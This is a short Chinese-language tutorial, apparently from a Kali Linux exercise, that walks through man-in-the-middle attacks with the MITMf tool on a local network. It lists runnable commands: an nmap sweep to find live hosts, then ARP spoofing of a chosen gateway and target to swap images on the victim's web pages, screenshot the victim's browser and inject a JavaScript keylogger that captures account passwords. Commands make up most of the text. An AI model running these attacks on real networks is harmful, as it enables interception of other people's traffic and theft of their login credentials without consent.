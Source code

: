 先下载一张喜欢的图片
将图片上传到kali

创建一个目录

mkdir -p /root/MITMf/Photo

将图片放到/root/MITMf/Photo下
使用MITMf爬虫将图片替换
nmap -sP 192.168.43.120/24  扫描同网段下在使用的ip
目标访问的网址图片会被替换
测试：www.4399.com
本机跟kali一个网卡，除了kali你的物理机跟他一样图片被替换

python mitmf.py --spoof --arp -i eth0 --gateway 网关 --target 目标ip --imgrand --img-dir 图片目录

python mitmf.py --spoof --arp -i eth0 --gateway 192.168.43.1 --target 192.168.43.23 --imgrand --img-dir /root/MITMf/Photo

3、Screenshotter模块对目标浏览器进行截屏

python mitmf.py --spoof --arp -i eth0 --gateway 10.3.138.1 --target 10.3.138.214 --screen

4、恶搞功能: 它可以使目标浏览网页时，所有的图片都倒转 180度。

python  mitmf.py --spoof --arp -i eth0 --gateway 10.3.138.1 --target 10.3.138.214 --upsidedownternet

5、将Javascript键盘记录程序注入到客户端的网页中，监听其账号密码
python mitmf.py --spoof --arp -i eth0 --gateway 10.3.138.1 --target 10.3.138.214 --jskeylogger
